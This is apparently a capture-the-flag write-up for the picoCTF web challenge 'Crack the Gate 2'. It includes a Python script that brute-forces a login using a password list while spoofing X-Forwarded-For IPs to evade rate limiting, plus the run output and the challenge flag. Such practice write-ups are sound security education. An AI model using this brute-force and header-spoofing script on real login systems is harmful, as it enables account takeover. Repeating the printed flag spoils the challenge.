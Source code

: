 # Crack the Gate 2

<img width="500" height="500" alt="image" src="https://github.com/user-attachments/assets/20373db0-be20-4d5e-ab09-fd62efa4d1d9" />

**Tag:** `Web Exploitation`

**Description:** 
>The login system has been upgraded with a basic rate-limiting mechanism that locks out repeated failed attempts from the same source. We’ve received a tip that the system might still trust user-controlled headers. Your objective is to bypass the rate-limiting restriction and log in using the known email address: ctf-player@picoctf.org and uncover the hidden secret. The website is running here. Can you try to log in?. Download the passwords list here.

**Attachments:** `http://amiable-citadel.picoctf.net:57426/` `passwords.txt`

**Hints:**

<details>
<summary>Hint 1</summary>

What IP does the server think you’re coming from?

</details>

<details>
<summary>Hint 2</summary>
  
Read more about X-forwarded-For

</details>

</details>

<details>
<summary>Hint 3</summary>
  
You can rotate fake IPs to bypass rate limits.

</details>

**Author:** Yahaya Meddy

**Solved:** `791 users solved`

---

# Solution

<img width="1000" height="500" alt="image" src="https://github.com/user-attachments/assets/888e86ff-4756-4977-8937-2591afb78c03" />

Just like before, a login UI is provided with an email and password form again. but what's different this time is that we have to make the server think that we are coming from another IP. and we are also given a list of passwords that are used to enter the dashboard perhaps. for that we can make a solver like the following


```python
import requests

url = "http://amiable-citadel.picoctf.net:57426//login"
email = "ctf-player@picoctf.org"

with open('passwords.txt', 'r') as pw:
    passwords = [password_line.strip() for password_line in pw]

for idx, password in enumerate(passwords):
    fake_ip = f"123.45.67.{idx}"
    headers = {"X-Forwarded-For": fake_ip}
    data = {"email": email, "password": password}

    r = requests.post(url, 
                    data=data, 
                    headers=headers, 
                    allow_redirects=False)
    if r.status_code == 302 or "picoCTF" in r.text:
        print(f"Password Hitted -> {password} -> result: {r.text}")
    else:
        print(f"{fake_ip} -> {email}:{password} failed ")
```

In this code, I created a fake IP loop, which is used to trick the server into thinking we're coming from a different IP. For this, we also use X-Forwarded-For. Next, as usual, we enter the credentials and password using the password list provided earlier.

then run the script and get the flag

```bash
 zsh > python solve.py
123.45.67.0 -> ctf-player@picoctf.org:FvQqRDID failed 
123.45.67.1 -> ctf-player@picoctf.org:o28yxJnz failed 
123.45.67.2 -> ctf-player@picoctf.org:dzXLq6iI failed 
123.45.67.3 -> ctf-player@picoctf.org:gQwoROCU failed 
123.45.67.4 -> ctf-player@picoctf.org:TqdQCjNn failed 
123.45.67.5 -> ctf-player@picoctf.org:VJSDcyso failed 
123.45.67.6 -> ctf-player@picoctf.org:wCLZCkww failed 
123.45.67.7 -> ctf-player@picoctf.org:GxjOadW5 failed 
123.45.67.8 -> ctf-player@picoctf.org:3pcv6C7j failed 
123.45.67.9 -> ctf-player@picoctf.org:F0v4Jsmr failed 
123.45.67.10 -> ctf-player@picoctf.org:y9JoEDYm failed 
Password Hitted -> QKCdmMKy -> result: {"success":true,"email":"ctf-player@picoctf.org","firstName":"pico","lastName":"player","flag":"picoCTF{xff_byp4ss_brut3_44b93275}"}
123.45.67.12 -> ctf-player@picoctf.org:fnW92UyB failed 
123.45.67.13 -> ctf-player@picoctf.org:eMy1d5JZ failed 
123.45.67.14 -> ctf-player@picoctf.org:eturI0N3 failed 
123.45.67.15 -> ctf-player@picoctf.org:pBT4eP6k failed 
123.45.67.16 -> ctf-player@picoctf.org:o1QeNZ3M failed 
123.45.67.17 -> ctf-player@picoctf.org:hdd1CWXH failed 
123.45.67.18 -> ctf-player@picoctf.org:R6flYmhD failed 
123.45.67.19 -> ctf-player@picoctf.org:cRdawYlr failed
```

---

# Flag: picoCTF{xff_byp4ss_brut3_44b93275}
